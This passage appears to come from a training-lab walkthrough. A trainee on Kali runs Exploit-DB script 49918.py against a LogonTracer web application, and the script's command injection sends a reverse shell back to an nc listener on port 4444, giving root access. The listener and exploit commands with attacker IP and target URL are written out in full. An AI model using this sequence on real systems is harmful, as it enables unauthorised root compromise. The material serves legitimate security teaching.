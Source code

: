 

From lines 13–16, the user needs to provide the attacker's IP address, attacker's port, and the Uniform Resource Locator (URL) to the victim.


From lines 22–29, it is evident that it is a command injection vulnerability that is being exploited, which sends back a shell to an attacker's listener.


Keep in mind, it is not necessary to understand everything that is happening in the script, just a general idea of what it is doing. There is no need for an in-depth code review.


11. Run the following command to print the exploit script's help menu:
(trainee@dmss-kali)-[~] $ python3 /usr/share/exploitdb/exploits/multiple/webapps/49918.py -h

![image](https://github.com/user-attachments/assets/8cc2b5ab-ff38-4f2d-8ec4-3195e48b6226)

Now the syntax of the command is known.


12.  Start a listener before running the exploit, as the exploited host needs something to call back to. The port is somewhat arbitrary. In this case, 4444 is used.
(trainee@dmss-kali)-[~] $ nc -nlvp 4444

![image](https://github.com/user-attachments/assets/cb7ea7ab-c207-40b7-b626-e56228fe5ce5)

13. Open a new tab or window, and run the following command to run the exploit:
(trainee@dmss-kali)-[~] $ python3 /usr/share/exploitdb/exploits/multiple/webapps/49918.py 199.63.64.51 4444 http://200.200.200.10:8080

![image](https://github.com/user-attachments/assets/bd3fb75e-a2e4-4f38-a07b-51fb7266d17d)

The output states If the terminal hangs, you might have a shell. Since the terminal hangs immediately after sending the exploit, this is a good sign.


14. Switch back to the other terminal where Netcat was running.


![image](https://github.com/user-attachments/assets/2bafe7e5-f60a-4ac4-b3bd-656e4632b5d5)


A shell was received from the exploited host. Notice that a few seemingly random characters are returned in the prompt as well. These are escape codes, which are responsible for formatting text that is typically seen when entering text into a terminal and do not affect running commands.


15. Run a command to check the functionality of the shell.
(trainee@dmss-kali)-[~] $ /usr/local/src/LogonTracer # whoami

![image](https://github.com/user-attachments/assets/72022864-43ac-47cf-8d56-69a69f57288f)

The shell appears to be in working order, and notice you are the root user on the victim host.


16. Enter exit to exit the shell.

----------------------------------------
